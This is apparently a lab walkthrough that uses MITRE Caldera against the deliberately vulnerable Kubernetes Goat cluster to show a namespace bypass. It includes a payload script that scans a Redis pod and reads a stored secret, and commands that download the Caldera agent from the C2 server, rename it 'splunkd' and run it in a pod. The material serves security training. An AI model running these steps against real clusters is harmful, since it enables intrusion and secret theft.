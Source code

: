 # Demonstration Using Kubernetes Goat and Caldera

## Kubernetes Goat Scenario: Namespace Bypass

This scenario demonstrates how to bypass namespace restrictions and access resources across namespaces.

### Setup

1. We have already deployed Kubernetes Goat.

2. In Kubernetes Goat, there is a cache storage running in another namespace called `secure-middleware`:
    ```bash
    kubectl get pods -n secure-middleware
    ```

3. For this demonstration, we will use the IP address of the `cache-store` pod in the `secure-middleware` namespace:
    ```bash
    kubectl get pods -n secure-middleware -o json | jq -r '.items[].status.podIP'
    ```

## Caldera Setup and Demonstration

### Prerequisites

Ensure you have the following installed:
1. Python 3
2. Node.js

### Caldera Installation

1. Clone the Caldera repository:
    ```bash
    git clone https://github.com/mitre/caldera.git --recursive
    cd caldera/
    ```

2. Create and activate a Python virtual environment:
    ```bash
    python3 -m venv venv
    source venv/bin/activate
    ```

3. Install the required Python packages:
    ```bash
    pip install -r requirements.txt
    ```

### Adding Abilities and Payloads

1. Create a directory for abilities:
    ```bash
    mkdir -p ~/caldera/data/abilities/command-and-control
    ```

2. Create a new ability file:
    ```bash
    nano ~/caldera/data/abilities/command-and-control/7d9fe48e-7fe2-49ed-8f59-5a6a3015b66b.yml
    ```

    Add the following content to the file:
    ```yaml
    -   tactic: command-and-control
        technique_name: Network Service Discovery
        technique_id: T1254
        name: test
        description: test
        executors:
        - name: sh
            platform: linux
            command: ./test.sh
            code: null
            language: null
            build_target: null
            payloads:
            - test.sh
            uploads: []
            timeout: 600
            parsers: []
            cleanup: []
            variations: []
            additional_info: {}
        requirements: []
        privilege: ''
        repeatable: false
        buckets:
        - command-and-control
        additional_info: {}
        access: {}
        singleton: false
        plugin: ''
        delete_payload: true
        id: 7d9fe48e-7fe2-49ed-8f59-5a6a3015b66b
    ```

3. Create a new payload file:
    ```bash
    nano ~/caldera/data/payloads/test.sh
    ```

    Add the following content to the file:
    ```bash
    #!/bin/bash

    apt update -y
    apt install nmap redis-tools -y

    echo '[+] Starting'
    nmap -Pn -sV <CACHE_STORE_POD_IP> -p 6379
    redis-cli -h <CACHE_STORE_POD_IP> keys '*'
    echo '[+] Complete with module'
    # redis-cli -h <CACHE_STORE_POD_IP> get 'SECRETSTUFF'
    ```

Replace `<CACHE_STORE_POD_IP>` with the IP address obtained from the previous Kubernetes command.

### Starting Caldera

1. Set the Caldera URL environment variable and start the Caldera server:
    ```bash
    export VITE_CALDERA_URL=http://<SERVER_IP>:8888 && python3 server.py --insecure --build
    ```

2. Open your browser and visit `http://<SERVER_IP>:8888/`. Use the default credentials (`admin:admin`) to log in.

### Deploying the Caldera Agent

Assuming we have internal access to a Kubernetes pod, follow these steps to deploy the Caldera agent:

1. Create a Kubernetes deployment file (`depl.yaml`) with the following content:
    ```yaml
    apiVersion: apps/v1
    kind: Deployment
    metadata:
      name: ubuntu-deployment
      namespace: default
    spec:
      replicas: 1
      selector:
        matchLabels:
          app: ubuntu
      template:
        metadata:
          labels:
            app: ubuntu
        spec:
          containers:
          - name: ubuntu
            image: python:slim
            command: ["/bin/bash", "-c", "while true; do sleep 30; done;"]
    ```

2. Apply the deployment:
    ```bash
    kubectl apply -f depl.yaml
    ```

3. Access the Ubuntu pod:
    ```bash
    kubectl exec -ti ubuntu-deployment-xxxxxxx bash
    ```
4. Install nano for creating the agent.sh file.
    ```bash
    apt update -y && apt install nano -y
    ```

4. Inside the pod, install necessary packages and set up the Caldera agent:
    ```bash
    apt update -y 
    apt install curl -y

    server="http://<SERVER_IP>:8888"
    socket="<SERVER_IP>:7010"
    curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd
    chmod +x splunkd
    ./splunkd -server $server -group red -v
    ```

After running these commands, you should see the agent is live on the Caldera dashboard under the "Agents" tab.

### Creating and Running an Operation

1. Create a new adversary profile named "Demo" and add the abilities:
   - Hostname discover
   - Test (previously created with the YAML file and placed in the appropriate directories)

2. Open the "Operations" tab, create a new operation named "Demo," and select the adversary profile "Demo."

3. Start the operation.

4. Monitor the output in the operations console. You can also execute manual commands, such as:
    ```bash
    redis-cli -h <CACHE_STORE_POD_IP> get 'SECRETSTUFF'
    ```

    This will allow you to see the secret data stored in Redis.

By following these steps, you can demonstrate the capabilities of Caldera in a Kubernetes environment and understand the potential security implications of namespace misconfigurations.

## References

- [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-11/kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome)
